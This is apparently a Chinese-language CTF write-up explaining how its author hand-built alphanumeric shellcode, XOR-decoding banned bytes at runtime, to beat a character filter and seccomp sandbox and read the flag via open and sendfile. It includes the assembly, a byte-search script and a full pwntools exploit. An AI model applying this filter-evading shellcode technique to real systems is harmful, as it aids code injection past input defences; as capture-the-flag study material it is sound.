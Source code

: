 ```yaml
---
title: 一道异或手搓shellcode
date: 2024-9-1
categories: some-ctf
tag: shellcode
---
```

# 审题
![main](./alphacode/main.png)
很清晰的看到，题目是给了一个0x53的shellcode读入，并且限制必须是`0-9,A-Z,a-z`中的字符，并且直接清零了除了rsp和rip之外的所有寄存器。
![sandbox](./alphacode/sandbox.png)
以及程序甚至还有沙箱，禁用了大部分系统调用，read也被禁用，而且还有第一三四个参数必须为0或1的规则。基本上只剩下了open('flag',0,0)加上sendfile的方法。

由于shellcode的字节太少，不能通过现成的ae64，alpha3之类的可视化字符生成工具来写shellcode，必须用到异或手搓。
# 思路
通过异或的方式来恢复shellcode中违规字符，那么第一步就是先编写好shellcode，并且尽可能减少其中违规字符的出现频率，以达到减少异或解码段长度的目的。
```asm
# open('flag',0,0)
push 0x67616c66
push rsp
pop rdi
push 0x2
pop rax
syscall

# sendfile(1,0,0,1)
label:
push 0x1
push 0x28
pop rax
push rdx
pop rsi
pop rdi
push rdi
pop r10
syscall
jmp label
```
如上汇编代码的机器码为
```python
shellcode = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'
shellcode+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'
```
然后编写一个简单的脚本，找出合法字符集合中是否存在字符A，能够与shellcode中的任意非法字符异或得到合法字符集中的字符(怎么突然严谨起来了)
```python
wrongset = []
wrongset.append(0x5f)
wrongset.append(0x02)
wrongset.append(0x0f)
wrongset.append(0x05)
wrongset.append(0x01)
wrongset.append(0x28)
wrongset.append(0x5e)
# 0x6a
wrongset.append(0xeb)
wrongset.append(0xf1)
# 0xa8

charset = []
for i in range(0x30,0x3a,1):
    charset.append(i)
for i in range(0x41,0x5b,1):
    charset.append(i)
for i in range(0x61,0x7b,1):
    charset.append(i)
for char in charset:
    print(chr(char))
    count = 0
    for wrongchar in wrongset:
        if wrongchar^char in charset:
            print(f'{hex(wrongchar)}^{hex(char)} in charset')
            count += 1
    print(f'{hex(char)} got {count} points')
```
结论是前面的七个非法字节都有很多字符满足条件，我最后选择了0x6a。而shellcode中的最后两个字节，也就是jmp -0xf，由于0xeb和0xf1都大于0x7f，必须要大于0x7f的数字与合法字符异或才能得到，这一部分我参考火箭的思路，选择了imul的乘法来得到大数。

接下来着手编写异或解码段，我选择了`xor [rdi+立即数],dl`作为异或。那么就需要rdi是一个指向`0x20240000`的数，由于`0x20240000`也是非法字符，所以只能通过异或来取得。

由于我是个笨蛋，没想到怎么写比较好，就抄了官方wp的前面这一部分
```
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]
```
然后就是重复使用`xor [rdi+立即数],dl`
```
xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx
```
如果有连续两个非法字符连在一起，还可以使用`dx`来一次改两个字节

接下来是处理最后的两个字节`0xEBF1`
我使用`imul r15,[rcx],0x44`，将[rcx]的值乘以0x44，放进r15。本来还想使用rsi的，能省一个字节，但问题是之后还得将rsi清零，要不然会影响syscall的结果，权衡一下还是很明确使用r15更划算。
[rcx]的值是`0x4a4e6a4a`根据我的遍历，得到了0x44是可以使用的，0x44*0x4a=0xa8。而我的遍历脚本告诉我0xa8可以与0xeb以及0xf1分别异或都能得到合法字符。

在imul之后，继续吧r15的值给rdx，继续`xor [rdi+立即数],dl`
```
push r15;pop rdx
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx # 将等会会用到的参数清零，以保证syscall得到正确结果
```
# 整体exp
```python
shellcode = asm('''
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]

xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx

imul r15,[rcx],0x44
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx
''')

# 7,9,(0xb,0xc)
shellcode+= b'\x68\x66\x6C\x61\x67\x54\x35\x6A\x68\x58\x65\x6F'
originset = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'

# 0xe,0x10,0x13,(0x17,0x18)
shellcode+= b'\x6A\x6B\x6A\x42\x58\x52\x34\x35\x57\x41\x5A\x65\x6F'
originset+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'

shellcode+= b'\x43\x59'
# a8
io.send(shellcode)

io.recvuntil('>')
flag = io.recvuntil(b'}')
print(flag)
```
咳咳，太难搞了，很多数值在规划的时候没有办法获得准确结果，必须走一步看一步。而这样就心里很没底。


